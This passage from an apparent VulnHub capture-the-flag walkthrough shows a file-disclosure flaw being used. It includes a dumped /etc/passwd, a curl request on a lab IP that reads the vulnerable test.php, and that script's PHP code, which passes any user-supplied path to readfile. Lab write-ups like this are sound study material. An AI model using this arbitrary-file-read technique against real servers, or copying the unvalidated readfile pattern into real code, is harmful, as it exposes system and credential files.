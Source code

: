 ```
    mysql:x:102:105:MySQL Server,,,:/nonexistent:/bin/false
    messagebus:x:103:106::/var/run/dbus:/bin/false
    whoopsie:x:104:107::/nonexistent:/bin/false
    landscape:x:105:110::/var/lib/landscape:/bin/false
    sshd:x:106:65534::/var/run/sshd:/usr/sbin/nologin
    ica:x:1000:1000:ica,,,:/home/ica:/bin/bash
    
```
We see LFI is working thus we look for potentially useful files. Previously from dirb we know we have the following directories __/add, /c, /head, /in, /index, /panel, /show.__
When we examine all the files, four are found to be useful; ___index.php, in.php, c.php, test.php___

We'll start with `test.php.` This is where the primary vulnerability exists. It _only_ allows us to read the files.
Here's the code for `test.php`
```
root@marksmith:~# curl -d "file=test.php" http://192.168.109.146/test
<?php

function file_download($download)
{
if(file_exists($download))
{
header("Content-Description: File Transfer"); 

header('Content-Transfer-Encoding: binary');
header('Expires: 0');
header('Cache-Control: must-revalidate, post-check=0, pre-check=0');
header('Pragma: public');
header('Accept-Ranges: bytes');
header('Content-Disposition: attachment; filename="'.basename($download).'"'); 
header('Content-Length: ' . filesize($download));
header('Content-Type: application/octet-stream'); 
ob_clean();
flush();
readfile ($download);
}
else
{
echo "file not found";
}

}

if(isset($_POST['file']))
{
file_download($_POST['file']);
}
else{

echo '\'file\' parameter is empty. Please provide file path in \'file\' parameter ';
}
```
If the file parameter isn't set. It gives an error message;
`'file' parameter is empty.` Please provide file path in 'file' parameter 
If file is set and the file exists, it reads the contents of the file.
`readfile ($download);`


[1]: https://www.vulnhub.com/entry/zico2-1,210/
[2]: https://twitter.com/@indishell1046
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator